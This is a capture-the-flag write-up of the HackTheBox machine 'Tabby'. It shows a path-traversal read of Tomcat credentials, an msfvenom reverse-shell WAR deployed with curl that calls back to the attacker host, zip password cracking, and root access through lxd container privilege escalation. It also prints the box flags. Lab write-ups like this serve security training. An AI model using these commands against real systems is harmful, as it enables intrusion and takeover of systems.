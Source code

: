 # Tabby

Author: Ewaël

**Tabby** is an easy HackTheBox box by egre55.

`nmap -sC -sV -oN nmap 10.10.10.194 -v -A` shows ports 80, 22 and 8080 are open. Let's start with the website.

![site](imgs/site.png)

After searching a bit I find `files/statement`:

```
We apologise to all our customers for the previous data breach.
We have changed the site to remove this tool, and have invested heavily in more secure servers
```

The tool is the `news.php` page which does not work at first sight. But changing `http://megahosting.htb/news.php?file=statement` to `http://10.10.10.194/news.php?file=statement` makes it work properly. Here is my entry point, I can use the vulnerable tool which should not be accessible. I feel like there could be an LFI to exploit but I can't make it to `/etc/passwd`.

After wasting hours with dirb, sql injections or even fuzzing the `file` parameter, I finally realize that my first feeling was good, but I did not try hard enough, because `http://10.10.10.194/news.php?file=../../../../etc/passwd` works correctly.

![etcpasswd](imgs/etcpasswd.png)

Let's check port 8080 to see how to exploit it, maybe I can leak the `manager` creds.

![8080](imgs/8080.png)

THIS is interesting:

```
NOTE: For security reasons, using the manager webapp is restricted to users 
with role "manager-gui". The host-manager webapp is restricted to users with
role "admin-gui". Users are defined in /etc/tomcat9/tomcat-users.xml.
```

There is nothing in `../../../../etc/tomcat9/tomcat-users.xml` but after testing with my own tomcat installation, I find it in `../../../../usr/share/tomcat9/etc/tomcat-users.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

There are my creds: `tomcat:$3cureP4s5w0rd123!`

![tomcat](imgs/tomcat.png)

For some reason I can not access the `manager` page on the browser but curl has no problem. Let's create my war reverse shell with msfvenom and upload it with curl:

```
$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.27 lport=4444 -f war -o shell.war
$ curl --upload-file shell.war "http://10.10.10.194:8080/manager/text/deploy?path=/shell.war" --user 'tomcat:$3cureP4s5w0rd123!'
```

Now let's visit `http://10.10.10.194:8080/shell.war` after setting up my listerner on host. I get a shell as `tomcat`, let's now privilege escalation to `ash`.

## Privilege escalation

`python3 -c 'import pty; pty.spawn("/bin/bash")'` spawns a nicer shell to work with. After moving around, I find `/var/backups`:

```
tomcat@tabby:/var/backups$ ls -all
-rw-r--r--  1 root root 41559 Jun 17 16:22 apt.extended_states.0
-rw-r--r--  1 root root  4561 May 21 13:16 apt.extended_states.1.gz
-rw-r--r--  1 root root  4400 May 21 10:31 apt.extended_states.2.gz
-rw-r--r--  1 root root  3683 May 19 11:54 apt.extended_states.3.gz
```

I download them on host, decompress everything but nothing interesting there. Let's dig again. I find `16162020_backup.zip` in `/var/www/html/files` which belongs to `ash`. It is password protected, let's crack it with fcrackzip: `fcrackzip -D -p /usr/share/wordlists/rockyou.txt -v 16162020_backup.zip`.

Sucess! The password is `admin@it`. The files aren't important because this password works with `su ash`. Let's get the user flag:

`e7b9fbf22b9fabc4b70156152f3117d3`

```
$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

I try to find files that could belong to those groups, but only `adm` has potentially interesting files: `find / -group adm 2>/dev/null`, and I do not find anything useful. I also try some enumeration with linpeas and linenum:

```
...
[+] Unexpected folders in root
/cdrom

...
[+] Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root adm 10769 Jun 17 16:03 /var/log/apache2/access.log.1
-rw-r----- 1 root adm 869 Jul  2 19:02 /var/log/apache2/error.log.1
-rw-r----- 1 root adm 15061540 Jul  2 22:10 /var/log/apache2/access.log
-rw-r----- 1 root adm 0 May 21 10:31 /var/log/apache2/other_vhosts_access.log
-rw-r----- 1 root adm 937 Jun 20 20:58 /var/log/apache2/error.log.2.gz
-rw-r----- 1 root adm 2733131 Jul  2 21:49 /var/log/apache2/error.log
-rw-r----- 1 root adm 2423 Jun 16 16:42 /var/log/apache2/access.log.2.gz
-rw-r----- 1 root adm 1521 Jun 16 21:26 /var/log/apache2/error.log.3.gz
-rw-r----- 1 root adm 581 Jun 17 16:22 /var/log/apt/term.log.1.gz
-rw-r----- 1 root adm 0 Jul  2 19:02 /var/log/apt/term.log
-rw-r----- 1 root adm 10619 May 21 13:16 /var/log/apt/term.log.2.gz

...
[+] Finding passwords inside logs (limit 70)
...
/var/log/auth.log.1:Jun 16 17:54:15 ghost passwd[1307]: pam_unix(passwd:chauthtok): password changed for ash
```

But I do not find any way to exploit it. I finally find what I was searching for here: [https://www.hackingarticles.in/lxd-privilege-escalation](https://www.hackingarticles.in/lxd-privilege-escalation/). Let's use lxd-alpine-builder:

```
curl http:/10.10.14.27/alpine-v3.12-x86_64-20200702_1826.tar.gz -o alpine-v3.12-x86_64-20200702_1826.tar.gz
lxc image import ./alpine-v3.12-x86_64-20200702_1826.tar.gz --alias myimg
lxd init
lxc init myimg ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

Aaaand I am root! *Note: see link for explanations*

`66f92a3581eef5b294ceb0826f4b7563`
